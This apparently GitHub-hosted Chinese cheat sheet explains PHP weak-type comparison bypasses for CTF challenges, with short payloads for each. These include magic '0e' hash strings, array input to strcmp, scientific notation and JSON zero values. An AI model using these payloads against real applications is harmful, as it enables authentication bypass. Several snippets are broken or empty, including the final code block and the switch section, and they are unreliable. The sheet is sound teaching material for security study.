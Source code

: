 * [isNumber](#isNumber)
* [数字长度绕过](#数字长度绕过)
* [strcmp](#strcmp)
* [md5](#md5)
* [json_decode](#json_decode)
* [==&===](#==&===)
* [switch](#switch)
* [数字比较](#数字比较)
### isNumber
is_numeric()判断是否为数字，因为PHP的弱类型，将数字后面加上空格或者任意一个字符即可绕过.
payload:
```
数字%20
p2=2%20
```
### 数字长度绕过
通过科学计数法绕过
payload:
```
$_GET['p1'] > 99999999 && strlen($_GET['p1']) < 9
p1=1e9
```
### strcmp
strcmp函数比较字符串的本质是将两个变量转换为ascii，然后进行减法运算，然后根据运算结果来决定返回值.
语法：strcmp(string1,string2);
0 - 如果两个字符串相等。当传入的数据类型不是字符串是，报错，并且返回0；

<0 - 如果 string1 小于 string2

>0 - 如果 string1 大于 string2
payload：
```
  if (strcmp($_GET['flag'], FLAG) == 0) 
  flag=[]
```
### md5
PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0
payload:
```
QNKCDZO
    240610708
    s878926199a
    s155964671a
    s214587387a
    s214587387a
     sha1(str)
    sha1('aaroZmOk')  
    sha1('aaK1STfY')
    sha1('aaO8zKZF')
    sha1('aa3OFF9m')
```
### json_decode
输入一个json类型的字符串，json_decode函数解密成一个数组，判断数组中key的值是否等于key的值。虽然key的值我们不知道，但是可以利用0=="string"这种形式绕过
payload:
```
define('key', 'flag{4}');
if (isset($_POST['a'])) {
    $a = json_decode($_POST['a']);
    if ($a->key == $key) {
        echo "flag" . key;
    } else {
        echo "不相等";
    }
 } else{
     echo "a不存在";
 }
a={"key":0}
```
### ==&===
“==”是判断数值是否相等，如果类型不同的进行比较，其会将类型转换成相同的再进行比较.“===”则是判断数值和类型是否相等.
当一个字符串欸当作一个数值来取值，其结果和类型如下:
如果该字符串没有包含'.'，'e'，'E'并且其数值值在整形的范围之内，该字符串被当作int来取值，其他所有情况下都被作为float来取值，该字符串的开始部分决定了它的值
如果该字符串以合法的数值开始，则使用该数值，否则其值为0
payload:
```
<?php  
var_dump("admin" ==0);"admin"转换成0
var_dump("1admin" ==1);"1admin"转成成1
var_dump("2admin" ==2);"2admin"转成成2
var_dump("admin1" ==1);"admin1"转换成0
var_dump("admin1" ==0);
var_dump("0e123456" =="0e4456789");//e是科学计数法。0exx=0*10的n次方
?>
#bool(true)
bool(true)
bool(true)
bool(false)
bool(true)
bool(true)
```
### switch
原理同==
payload:
```
```
### 数字比较
绕过常规数字校验，使用16进制。0x
payload:
```
$one=ord('1');
$nigth=ord('9');
$number='2223454235232546';
for(i=0;i<strlen($number);++i){
$digit=ord(tmp[i]);
if($digit>=$one&&$digit<=$night){
return "false";
}
if($number==$temp){
echo "flag";
}
}



```
